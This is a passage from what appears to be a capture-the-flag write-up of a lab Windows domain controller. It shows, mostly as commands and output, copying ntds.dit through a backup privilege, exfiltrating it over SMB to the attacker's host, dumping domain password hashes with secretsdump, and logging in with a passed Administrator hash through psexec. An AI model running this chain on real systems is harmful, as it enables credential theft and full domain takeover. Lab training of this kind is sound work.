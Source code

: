 ```
*Evil-WinRM* PS C:\Users\svc_backup\music> Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit C:\Users\svc_backup\music\ntds.dit -Overwrite
```
And finally, we are going to need the Windows SYSTEM hive to extract anything useful from the ntds.dit file.
```

*Evil-WinRM* PS C:\Users\svc_backup\music> reg save HKLM\SYSTEM C:\Users\svc_backup\music\system.hive
The operation completed successfully.

```
I will be using Impacket's secretsdump.py to dump hashes. Let's copy the needed files back to our machine with SMB and try it.
```
*Evil-WinRM* PS C:\Users\svc_backup\music> copy ntds.dit \\10.10.14.234\heli\
*Evil-WinRM* PS C:\Users\svc_backup\music> copy system.hive \\10.10.14.234\heli\
```
A quick glance at the secretsdump.py help menu is enough to get the syntax:
```
root@crab:~# secretsdump.py -ntds ntds.dit -system system.hive LOCAL                             [63/63]
Impacket v0.9.22.dev1+20200826.101917.9485b0c2 - Copyright 2020 SecureAuth Corporation                     

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393                                                                            
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                            
[*] Searching for pekList, be patient                                                                                                    
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c                                                                        
[*] Reading and decrypting hashes from ntds.dit                                                                                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::                     
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                             
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:9d0d1c1498ac9ab2365fd58539624f1a:::                            
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::                            
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:4ee1e27ad931a09c93aefb549287e40f:::                        
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::                          
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
...
```
We got an Administrator hash! It is also different than the one we had before.
The best way to test it is with psexec.py:
```
root@crab:~# psexec.py BLACKFIELD.LOCAL/Administrator@10.10.10.192 -hashes 184fb5e5178480be64824d4cd53b99ee:184fb5e5178480be64824d4cd53b99ee
Impacket v0.9.22.dev1+20200826.101917.9485b0c2 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.192.....
[*] Found writable share ADMIN$
[*] Uploading file OQzoEqVP.exe
[*] Opening SVCManager on 10.10.10.192.....
```